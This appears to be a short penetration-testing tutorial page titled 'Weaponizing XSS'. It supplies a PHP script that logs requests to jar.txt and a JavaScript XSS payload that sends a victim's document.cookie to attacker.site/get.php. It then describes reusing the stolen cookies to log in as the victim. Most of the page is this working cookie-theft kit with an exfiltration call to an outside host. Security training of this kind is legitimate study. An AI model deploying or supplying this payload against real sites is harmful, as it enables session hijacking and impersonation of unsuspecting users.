 ```yaml
---
description: Weaponizing XSS
---
```


# XSS cookie stealing

## get.php 

To store cookie on machine.

```php
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

# opens a logfile where we save the query
$fp = fopen('jar.txt','a');

fwrite($fp, $ip.' '.$browser."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```

Using the PHP file above, if we make a GET request with the following param below, the `hereismydata` value gets stored in the `jar.txt` defined above 

```text
attacker.site/get.php?test=hereismydata
```

Using this, we can weaponize the XSS by crafting a payload to send the victim's cookies into the website. And then navigating to `attacker.site/jar.txt` we will see anyone who has cookies stolen.

```javascript
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
//the escape function helps prevent breaking the statement
```

If a victim triggers the XSS payload, the private cookies would be stolen and sent to the jar.txt file.

![](../.gitbook/assets/image%20%2858%29.png)

We can then use the cookies and impersonate as the user to login.


